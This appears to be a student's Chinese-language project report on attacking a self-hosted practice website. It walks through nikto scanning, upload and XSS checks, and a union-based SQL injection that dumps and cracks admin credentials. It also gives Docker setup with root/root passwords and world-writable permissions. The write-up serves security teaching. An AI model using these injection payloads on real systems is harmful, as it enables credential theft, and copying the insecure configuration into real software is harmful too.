 # 李雅萱 —— 个人总结技术报告
## 对团队的贡献
- 在靶场环境对各类漏洞进行探索。
- 成功发现、破解 `sql` 漏洞。
- 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 。
- 搭建 `docker` 镜像环境，见 [docker](https://github.com/Taaami/2022-summer-project/tree/main/docker) 。
- 编写自动化脚本，快速搭建环境，见 [build.sh](https://github.com/Taaami/2022-summer-project/blob/main/build.sh) 。
- 编写 `README`，创建、整理小组 [项目仓库](https://github.com/Taaami/2022-summer-project) 。
- 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
## 个人工作介绍
### 漏洞探索
#### 权限跨越漏洞
- 尝试登录 `admin` 权限，登陆页面试了万能密码和 `admin/admin` 都登陆失败(此时路径为 `/project/user/login.php` )。
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  ![](./img/admin.png)
- 与原有登录页面相同，但尝试了 `admin` 和万能密码还是无法登录。
  
  ![](./img/adlogin.png)
#### 文件上传漏洞
- 登录之前注册的一个测试账号，点击编辑发现可以上传图像。
- 查看源代码，可以看到图片的存储路径。
  
  ![](./img/edit.png)
- 将存储路径的 `url` 直接输入，可以看到原图片。
  
  ![](./img/default.png)
- 如果上传 `php` 文件（木马等），可以直接访问。
  
  ![](./img/php.png)
- 尝试上传 `php` 等类型文件，失败，提示上传 `jpg` 格式文件。
  
  ![](./img/jpg.png)
#### XSS漏洞
- 看到搜索框，联想到 `js` 代码注入。
- 测试语句为 `<script>alert(123)</script>` 。
- 没有弹窗，说明没有xss漏洞。
  
  ![](./img/xss.png)
#### sql漏洞
- 看到留言板的搜索框，想到 `sql` 注入。
  
  ![](./img/area.png)
- 尝试输入 `'` ，根据回显判断，此框对语句进行了过滤，直接 `ERROR` 。
  
  ![](./img/err.png)
### 漏洞破解
- 此时关注点还在留言搜索框，也就是 `search.php` 。
- 当输入一个 `'` 后页面无回显，说明执行了sql查询语句。

  ![](./img/test.png)
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  ![](./img/order5.png)
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  ![](./img/union.png)
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  ![](./img/name.png)
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  ![](./img/adminname.png)
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  ![](./img/pass.png)
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  ![](./img/md5.png)
- `admin/adminpwd` 尝试登录管理员用户，但是失败了。
  >此时路径为 `project/user/login.php`

  ![](./img/adfail.png)
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  ![](./img/admin.png)
- 与原有登录页面相同，尝试 `admin/adminpwd` 登录管理员用户。
### 脚本编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。

**脚本有详细注释，此处不再赘述。**
### 镜像搭建
- 原有网站环境为 `BuildIt` 组搭建，在此基础上我和罗舒文同学完成了 `docker` 部署。
  - `dockerfile`
    ```docker
    FROM s1riu5/lamp:7.2
    COPY project.sql /docker-entrypoint-initdb.d/
    COPY src/ /var/www/html/demo
    RUN chmod -R 777 /var/www/html
    ```
  - `config.php`
    ```php
    <?php
    //链接数据库
    $host = '127.0.0.1';//本机地址
    $username = 'root';//账户名
    $password = 'root';//密码
    $database = 'project';//数据库名
    $dbc = mysqli_connect($host, $username, $password, $database);//创建数据库对象
    if (!$dbc)
    {
      echo mysql_error();
    }
    //启用session
    session_start();
    //根目录
    $basedir = '/demo'; 
    //载入函数库
    include_once('lib.php');
    ?>
    ```
  - `project.sql`
    > 测试环境在本地，部署 `docker` 后出现权限和登录问题。
    ```sql
    USE mysql;
    UPDATE mysql.user SET authentication_string=password('root') WHERE user='root'; # 解决随机密码活空密码的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root'; # 解决root远程登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    flush PRIVILEGES; # 更新数据库
    ```
- 为方便使用者快速搭建环境，编写了 `build.sh` 一键部署。
  ```shell
  #!/bin/bash
  sudo apt-get install docker.io
  cd docker/demo
  sudo docker build -t demo:v3 .
  sudo docker run -d --name test -p 9000:80 demo:v3
  sudo docker ps
  ```
  ```shell
  # 执行脚本，可能需要较长时间拉取镜像
  sudo bash build.sh
  # 浏览器访问127.0.0.1:9000/demo
  ```
## 问题及解决
## 总结与思考
## 参考资料